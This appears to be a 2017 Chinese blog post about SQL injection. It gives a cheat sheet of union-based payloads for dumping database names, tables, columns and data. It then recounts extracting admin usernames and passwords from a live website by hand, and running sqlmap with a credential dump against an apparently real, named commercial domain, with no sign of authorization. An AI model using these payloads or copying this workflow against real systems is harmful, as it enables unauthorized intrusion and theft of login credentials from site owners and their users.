 ```yaml
---
layout: post
author: 可乐
date: 2017-6-11
title: sql注入第一次尝试
tags:
  - sql注入
  - CTF
  - 总结
---
```

# 常见的手工注入方法
* 判断注入点:`'` `and 1=1'` `'and 1=2'`报错来判断是否是注入点,部分诸如点事宽字节注入`%df'`来判断         
* 利用order by 猜测出列数   
* 获取数据库的名称和版本号    `http://www.xxx.asp?id=1' union select 1,2,3,4....n--+`   
* 利用'--+'或者是'#'把后面的代码注释掉，防止报错，有的时候网页不回显，可以尝试传入一个无效的参数值
* 在爆出数据的地方替换成database(),@@version,version(), eg:`'union select 1,2,version(),@@version(),database()--+`
* 如果mysql的版本号大于5，那就存在information_schema表，可以尝试以下注入
* 查询数据库名  `union select 1,2,3,group_concat(schema_name),5 from information_schema.schemata #`
* 查询表名 `union selet 1,2,3,group_concat(table_name), 5 from information_schema.tables where table_schema='数据库'#`  
或者是： `union select 1,2,3,group_concat(table_name),5,from information_schema.tables where table_schema=数据库名的16进制#`   
**数据库名的16进制没有引号**
* 查询列名 `union select 1,2,3,group_concat(column_name),5 from information_schema.columns where table_name='表名'#`
* 最后爆数据 `union select 1,2,3,group_concat(列名),5 from 表名#`
搞定手动
# 开坑（盲注）
*未完待续*
# 手工注入
发现了一个网站存在sql注入漏洞   
于是先猜测表名 and exists (select * from admin),页面显示正常，说明存在admin表，于是order by n 猜测列数
猜测出列数是28，页面显示23，然后联合查询,把23分别替换成username,password之后，获得账号密码  
![](http://or4d8nhvk.bkt.clouddn.com/17-6-13/16476355.jpg)
`and exists (select * from admin)`
![](http://or4d8nhvk.bkt.clouddn.com/17-6-13/71842443.jpg)
`UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28 from admin`
![](http://or4d8nhvk.bkt.clouddn.com/17-6-13/4860354.jpg)
`UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,username,24,25,26,27,28 from admin`
![](http://or4d8nhvk.bkt.clouddn.com/17-6-13/71842443.jpg)

`UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,password,24,25,26,27,28 from admin`
# sqlmap工具注入
`sqlmap -u http:***?article=91`    
结果显示article是一个注入点，显示出是布尔类型，payload   
`sqlmap -u http:***?article=91 --tables`   
猜测表名，发现表名中有一个admin,   
`sqlmap -u http:***?article=91 --columns -T admin`   
查询这张表的列名   
` sqlmap -u http://www.inbond-cn.com/showproducts.asp?id=91 --columns -T admin`
回显数据
` sqlmap -u http://www.inbond-cn.com/showproducts.asp?id=91 --dump -C "username,password" -T admin`
![](http://or4d8nhvk.bkt.clouddn.com/17-6-13/59371191.jpg)
